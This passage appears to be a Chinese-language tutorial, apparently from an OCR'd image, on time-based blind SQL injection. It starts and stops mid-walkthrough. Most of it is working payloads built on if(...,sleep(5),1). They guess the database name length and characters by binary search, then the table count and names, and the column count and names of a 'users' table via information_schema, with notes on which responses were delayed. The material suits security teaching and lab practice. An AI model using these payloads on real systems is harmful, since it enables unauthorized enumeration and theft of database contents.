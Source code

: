 1’ and if(length(database())=3,sleep(5),1) # 没有延迟

1’ and if(length(database())=4,sleep(5),1) # 明显延迟
说明数据库名长度为4个字符。

接着采用二分法猜解数据库名：

1’ and if(ascii(substr(database(),1,1))>97,sleep(5),1)# 明显延迟

…

1’ and if(ascii(substr(database(),1,1))<100,sleep(5),1)# 没有延迟

1’ and if(ascii(substr(database(),1,1))>100,sleep(5),1)# 没有延迟

说明数据库名的第一个字符为小写字母d。

…
重复上述步骤，即可猜解出数据库名。

3.猜解数据库中的表名

首先猜解数据库中表的数量：

1’ and if((select count(table_name) from information_schema.tables where table_schema=database() )=1,sleep(5),1)# 没有延迟

1’ and if((select count(table_name) from information_schema.tables where table_schema=database() )=2,sleep(5),1)# 明显延迟
说明数据库中有两个表。

接着挨个猜解表名：

1’ and if(length(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1))=1,sleep(5),1) # 没有延迟

…

1’ and if(length(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1))=9,sleep(5),1) # 明显延迟
说明第一个表名的长度为9个字符。

采用二分法即可猜解出表名。

4.猜解表中的字段名

首先猜解表中字段的数量：

1’ and if((select count(column_name) from information_schema.columns where table_name= ’users’)=1,sleep(5),1)# 没有延迟

…

1’ and if((select count(column_name) from information_schema.columns where table_name= ’users’)=8,sleep(5),1)# 明显延迟
说明users表中有8个字段。

接着挨个猜解字段名：

1’ and if(length(substr((select column_name from information_schema.columns where table_name= ’users’ limit 0,1),1))=1,sleep(5),1) # 没有延迟
